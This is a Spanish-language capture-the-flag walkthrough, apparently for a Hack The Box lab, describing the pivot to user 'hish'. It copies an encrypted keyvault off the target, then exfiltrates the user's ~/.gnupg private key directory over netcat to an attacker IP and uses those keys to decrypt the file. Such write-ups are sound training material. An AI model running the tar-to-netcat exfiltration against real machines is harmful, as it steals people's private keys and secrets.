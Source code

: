 mirando en el directorio, vemos que tiene un archivo .pgp, estos son archivos que ha sido encriptados por (PGP). esta herramienta para desencriptar, usa las keys que se encuentran en un directorio .gnupg en la home del usuario que intenta abrir el mensaje, si las claves coinciden, funcionará

<h3>Shell como Hish</h3>
mirando esto, vamos a:

descargar el archivo .gpg en base 64 con:
```bash
cat keyvaul.gpg | base64
```

ya en nuestra maquina de atacante:
```bash
echo 'hQEMA7dVsO3Wz8/TAQf+IKbTZZO1EiVhMV0uQkniP/ndBBA2kIFWn5rjvZXGN9gmUan2davePkCM
p1G4+O9PEOg33wgyLhgL0hewJ8Uy2JaA2CQT6WCCk7YbHRPHCMNpChlgsGNCGgxmHi0WkrD6t0JJ
iPsJIly102O2UOrNoaCrUZuu1yBiswFkKPprXC6Z8ZasWTsRcsZCMSb6iRGjKVNaueaRMVP8l+6G
vxYgNhqE26YGjzfnkxEqbDT3RrWtQxfqBC4opt9Y2V/HwSRiJwDFeezNjogiaVNOD/TVVcapBsIN
QcvCwjzbB9Y6Pu1AovqgPildWWNUD+y97jVami7tLs+hY2kTRAjSt2G7htKdAfzI7cswCfkNvOIE
OYo/FFRndmk/qo7bXHsx/gC06YQZDass7GI+YTFWFPj00beezT5SBzV3wOg/yLuml4+ZGSyjSsHr
TIZECYQ6RFjjTWcKkVQfXL3fgMVk/OrKYEa65VoiNlJWa06Ay5XOdUT5fCwu8Ef87gjLAa8EYJZY
pd9fXVLCxKTHWzAJBRmtId2q8V+Lw4f0K2bbe/Wqpg==' | base64 -d > keyvault.gpg
```

luego de eso descargamos las keys que están en /home/hish/.gnupg (que será el usuario al que debemos pivotar)

para ello puedes hacer el mismo proceso con base64 o hacerlo con netcat

primero nos ponemos en escucha y todo lo recibido, los meteremos en un .tar:
```
nc -lnvp 6969 > gnupg.tar
```

y desde la maquina victima nos enviaremos todo el directorio de las keys
```
tar -cvf - /home/hish/.gnupg | nc 10.10.14.233 14464
```

ahora, gpg va a buscar las claves en nuestro home... pero ya tenemos unas alli, asi que después de descomprimir el archivo .tar o cambiar los archivos de base64 a su respectiva extensión, vamos a llevar la carpeta .gnupg a nuestro home

puedes mover o eliminar .gnupg de tu home o moverlo a tmp (*recuerda luego hacer el proceso a la inversa*):
```
mv ~/home/user/.gnupg /tmp
```

y mover la de hish a nuestro home:
```bash
mv /htb/environmet/home/hish/.gnupg ~/
```

ahora, estamos listos para desencriptar el archivo .pgp:
```bash
gpg --decrypt keyvault.gpg
```
